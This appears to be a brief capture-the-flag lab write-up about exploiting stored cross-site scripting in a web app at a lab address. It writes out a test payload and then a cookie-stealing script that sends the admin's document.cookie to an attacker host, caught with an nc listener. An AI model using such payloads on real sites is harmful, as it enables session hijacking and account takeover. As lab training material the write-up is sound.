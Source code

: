 
## **Enumeration**
>	- Accessing the website `10.10.242.240:3000` and registering a user to log in.
>	- ![](website.png)
>	- Viewing the `source code` to see the tags surrounding the submitted entry.
>	- ![](source-code.png)
>	- The formulated payload should be `</p><script>alert(1);</script>Hello<p>`.
>	- ![](payload.png)
>	- From the entry made by `john`, looks like the admin logs in from time to time. So, use the payload `</p><script>new Image().src='http://10.9.224.110:8080/?c='+document.cookie</script>Hello<p>`, run a `nc` listener on the attack machine, and wait for the `admin` to log in.![](authid.png)